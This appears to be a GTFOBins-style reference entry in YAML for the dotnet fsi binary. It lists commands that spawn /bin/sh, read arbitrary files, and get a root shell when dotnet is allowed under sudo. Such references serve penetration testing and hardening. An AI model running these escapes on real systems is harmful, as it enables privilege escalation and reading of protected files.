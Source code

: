 ```yaml
---
functions:
  shell:
    - code: |
        dotnet fsi
        System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
  file-read:
    - code: |
        export LFILE=file_to_read
        dotnet fsi
        System.IO.File.ReadAllText(System.Environment.GetEnvironmentVariable("LFILE"));;
  sudo:
    - code: |
        sudo dotnet fsi
        System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
---
```

